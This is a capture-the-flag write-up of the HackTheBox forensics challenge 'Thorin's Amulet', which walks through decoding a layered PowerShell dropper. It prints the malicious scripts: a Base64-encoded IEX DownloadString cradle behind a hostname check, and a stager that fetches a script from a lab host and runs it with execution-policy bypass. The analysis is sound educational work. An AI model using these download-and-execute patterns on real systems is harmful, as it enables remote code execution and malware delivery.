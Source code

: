 # Thorin's Amulet

> **Note:**  
> The challenge can be downloaded here: [forensics_thorins-amulet.zip](https://0x42697262.github.io/birbrain/writeups/HackTheBox/_attachments/thorins-amulet/forensics_thorins_amulet.zip)

## Overview

### Description

> Garrick and Thorin’s visit to Stonehelm took an unexpected turn when Thorin’s old rival, Bron Ironfist, challenged him to a forging contest.
> In the end, Thorin won the contest with a beautifully engineered clockwork amulet, but the victory was marred by an intrusion.
> Saboteurs stole the amulet and left behind some tracks.
> Because of that, it was possible to retrieve the malicious artifact that was used to start the attack.
> Can you analyze it and reconstruct what happened?  


This forensics challenge involves analyzing a Base64-encoded PowerShell "malware" script.
The script retrieves another script from a web URL protected by basic authentication.
Inside the downloaded script lies the actual malware code—our flag.

## Investigation

I opened `artifact.ps1` and immediately noticed a Base64-encoded string being executed with `powershell.exe -EncodedCommand`.

> **Note:**  
> The source code of the script can be downloaded [here](https://0x42697262.github.io/birbrain/writeups/HackTheBox/_attachments/thorins-amulet/files/artifact.ps1).

As I do not like running scripts without checking them first, I opened the script in a text editor:

### artifact.ps1

```powershell
function qt4PO {
    if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
        exit
    }
    powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
}
qt4PO
```

### Decoding the First Layer

Here's the relevant line:

```powershell
powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
```

This suggests that the script is trying to execute a command encoded in *Base64*.

Interestingly, the script contains a basic anti-analysis check:

```powershell
if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
    exit
}
```

If the computer name isn’t `WORKSTATION-DM-0043`, the script terminates.
This is likely an attempt by the author to prevent execution on unintended machines.

Since I was too lazy to open *CyberChef*, I extracted and decoded the Base64 string directly:

```bash
grep -Eo '"[A-Za-z0-9+/=]+"' artifact.ps1 | tr -d '"' | base64 -d
```

#### Explanation:
- `grep -Eo '"[A-Za-z0-9+/=]+"' artifact.ps1`  
  - `-E`: Enables extended regular expressions.
  - `-o`: Outputs only the matched text, excluding surrounding content.
  - `"[A-Za-z0-9+/=]+"`: Matches a quoted Base64 string.
- `tr -d '"'`  
  - Removes double quotes from the matched Base64 string.
- `base64 -d`  
  - Decodes the extracted Base64 string.

#### Better Method Using `awk`

```bash
awk -F'"' '/EncodedCommand/ {print $2}' artifact.ps1 | base64 -d
```

**Why is this better?**
- Instead of searching for arbitrary quoted strings (grep method), it directly finds the `EncodedCommand` line.
- `awk -F'"' '{print $2}'` extracts only the content inside the quotes.
- More precise and avoids unintended matches.

This gave us:

```powershell
IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update")
```

So, the script is attempting to download another payload from `http://korp.htb/update` using PowerShell’s `DownloadString` method.

## Fetching the Second Script

> **Note:**  
> The source code of `update.ps1` can be downloaded [here](https://0x42697262.github.io/birbrain/writeups/HackTheBox/_attachments/thorins-amulet/files/update.ps1).

### update.ps1

```powershell
function aqFVaq {
    Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
    powershell.exe -exec Bypass -File "a541a.ps1"
}
aqFVaq
```

In `update.ps1`, there is a function `aqFVaq`. This function fetches another script from `http://korp.htb/a541a`, but this time it requires authentication via a custom HTTP header (`X-ST4G3R-KEY`).
Without this header, the request would fail.

I used `curl` to manually download the script:

```bash
curl http://korp.htb/a541a --header "X-ST4G3R-KEY:5337d322906ff18afedc1edc191d325d" -o a541a.ps1
```

Now, let’s check out `a541a.ps1`.

## Reconstruction

> **Note:**  
> The source code of `a541a.ps1` can be downloaded [here](https://0x42697262.github.io/birbrain/writeups/HackTheBox/_attachments/thorins-amulet/files/a541a.ps1).

### a541a.ps1

```powershell
$a35 = "4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d"
($a35 -split "(..)" | ?{$_} | % {[char][convert]::ToInt16($_,16)}) -join ""
```

Notice that a hex-encoded string is assigned to the variable `$a35` and the variable gets decoded on the next line.

Since nothing is being executed dynamically here, it should be safe to decode.

### Decoding the Payload

Running it in PowerShell:

```powershell
powershell a541a.ps1
```

Output:

```
HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}
```

**Hence, flag captured! 🎉**

If you do not trust the code or do not know how to read PowerShell scripts, it is completely okay to copy the encoded flag hex values into CyberChef.


